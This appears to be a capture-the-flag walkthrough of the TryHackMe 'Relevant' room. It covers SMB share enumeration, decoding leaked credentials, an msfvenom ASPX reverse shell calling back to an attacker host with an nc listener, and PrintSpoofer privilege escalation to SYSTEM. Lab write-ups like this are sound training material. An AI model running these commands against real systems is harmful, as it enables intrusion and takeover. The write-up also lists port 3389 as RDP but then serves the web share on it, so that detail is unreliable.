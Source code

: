 🧠 TryHackMe - Relevant | Full Walkthrough 🔍

🚀 Introduction

In this write-up, we’ll walk through the Relevant room on TryHackMe — a well-structured boot-to-root challenge that tests real-world pentesting skills.

We follow a structured methodology:

    🔎 Reconnaissance

    🧩 Enumeration

    💣 Exploitation

    🧠 Privilege Escalation

Let's dive in.
🌐 Phase 1: Reconnaissance
🔍 Nmap Scan

We begin with a full TCP port scan:

nmap -sC -sV -p- -T4 <target-ip>

Open Ports Identified:

    139/tcp — NetBIOS

    445/tcp — SMB

    3389/tcp — RDP

    80/tcp — HTTP

📚 Protocol Insight

SMB (Server Message Block) allows file sharing across the network. Common in Windows environments, SMB is often misconfigured and can be a solid attack vector.

We use smbclient to enumerate shares:

smbclient -L //<target-ip> -N

Identified a share named nt4wrksv.

We connect:

smbclient //<target-ip>/nt4wrksv

Within it, we discover passwords.txt, base64-encoded.
🪓 Phase 2: Enumeration & Initial Access
📂 Decoding Credentials

Download the passwords.txt file, decode it:

cat passwords.txt | base64 -d

Credentials found.
🌐 Web Server Analysis

Exploring http://<target-ip>:3389/nt4wrksv/, we discover the same share exposed via HTTP.

Knowing we have upload permission, we weaponize this.
🐚 Gaining Initial Shell

Generate an ASPX reverse shell:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip> LPORT=53 -f aspx -o rev.aspx

Upload to the SMB share:

put rev.aspx

Trigger it from the browser:

http://<target-ip>:3389/nt4wrksv/rev.aspx

Listener catches the shell:

nc -lvnp 53

We're in as bob. User flag captured:

type C:\Users\bob\Desktop\user.txt

🔐 Phase 3: Privilege Escalation

Run privilege check:

whoami /priv

We see:

SeImpersonatePrivilege : Enabled

This allows token impersonation — a classic path to SYSTEM.

Use PrintSpoofer:

PrintSpoofer.exe -i -c cmd

Pop! SYSTEM shell achieved.

Read the final flag:

type C:\Users\Administrator\Desktop\root.txt

✅ Summary

Key Learnings:

    🔓 Weak SMB configuration led to sensitive file exposure

    🎯 Base64-encoded credentials were easily decoded

    🐚 ASPX shell upload exploited file write access

    🛡️ Misconfigured privileges (SeImpersonate) led to SYSTEM access

Real-World Takeaway:
Many environments still suffer from weak file sharing practices and overly permissive privileges. This room is a perfect example of why SMB misconfigurations are still a goldmine in internal networks.

    Difficulty: Medium | Focus: SMB Enumeration, Web Exploitation, Privilege Escalation
